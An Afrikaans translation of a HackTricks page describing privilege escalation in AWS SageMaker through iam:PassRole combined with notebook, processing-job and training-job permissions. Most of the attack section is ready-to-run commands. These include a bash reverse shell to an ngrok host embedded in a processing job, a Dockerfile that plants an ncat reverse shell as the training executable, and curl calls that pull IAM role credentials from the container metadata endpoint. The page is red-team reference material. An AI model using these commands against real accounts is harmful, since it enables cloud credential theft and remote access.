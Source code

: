 # AWS - Sagemaker Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Begin met die skep van 'n notaboek met die IAM Role wat daaraan gekoppel is:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die antwoord moet 'n `NotebookInstanceArn` veld bevat, wat die ARN van die nuutgeskepte notaboekinstansie sal bevat. Ons kan dan die `create-presigned-notebook-instance-url` API gebruik om 'n URL te genereer wat ons kan gebruik om toegang tot die notaboekinstansie te verkry sodra dit gereed is:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigeer na die URL met die webblaaier en klik op "Open JupyterLab" in die boonste regterhoek, skrol dan af na die "Launcher" -kategorie en klik op die "Terminal" -knoppie onder die "Other" -afdeling.

Nou is dit moontlik om toegang te verkry tot die metadata-geloofsbriewe van die IAM Role.

**Potensiële Impak:** Privesc na die gespesifiseerde sagemaker-diensrol.

## `sagemaker:CreatePresignedNotebookInstanceUrl`

As daar reeds Jupyter-notaboekies op dit loop en jy kan hulle lys met `sagemaker:ListNotebookInstances` (of hulle op enige ander manier ontdek). Jy kan 'n URL vir hulle genereer, toegang tot hulle verkry en die geloofsbriewe steel soos aangedui in die vorige tegniek.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potensiële Impak:** Privesc na die sagemaker-diensrol wat aangeheg is.

## `sagemaker:CreateProcessingJob,iam:PassRole`

'n Aanvaller met daardie toestemmings kan **sagemaker dwing om 'n verwerkingswerk uit te voer** met 'n sagemaker-rol wat daaraan geheg is. Die aanvaller kan die definisie van die houer aandui wat in 'n **AWS-bestuurde ECS-rekeningseksemplaar** uitgevoer sal word, en **die geloofsbriewe van die gehegde IAM-rol steel**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potensiële Impak:** Privesc na die sagemaker-diensrol wat gespesifiseer is.

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

'n Aanvaller met hierdie toestemmings sal in staat wees om 'n opleidingswerk te skep, wat 'n willekeurige houer daarop laat loop met 'n rol daaraan geheg. Daarom sal die aanvaller in staat wees om die geloofsbriewe van die rol te steel.

{% hint style="warning" %}
Hierdie scenario is moeiliker om uit te buit as die vorige een omdat jy 'n Docker-beeld moet genereer wat die rev shell of geloofsbriewe direk na die aanvaller sal stuur (jy kan nie 'n beginopdrag in die konfigurasie van die opleidingswerk aandui).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potensiële Impak:** Privesc na die sagemaker-diensrol wat gespesifiseer is.

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

'n Aanvaller met hierdie toestemmings sal (moontlik) in staat wees om 'n **hyperparameter opleidingswerk** te skep, **'n willekeurige houer daarop te laat loop** met 'n **rol daaraan geheg**.\
Ek het dit nie uitgebuit weens 'n gebrek aan tyd nie, maar dit lyk soortgelyk aan die vorige uitbuitings, voel vry om 'n PR te stuur met die uitbuitingsbesonderhede.

# Verwysings
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks wil adverteer** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
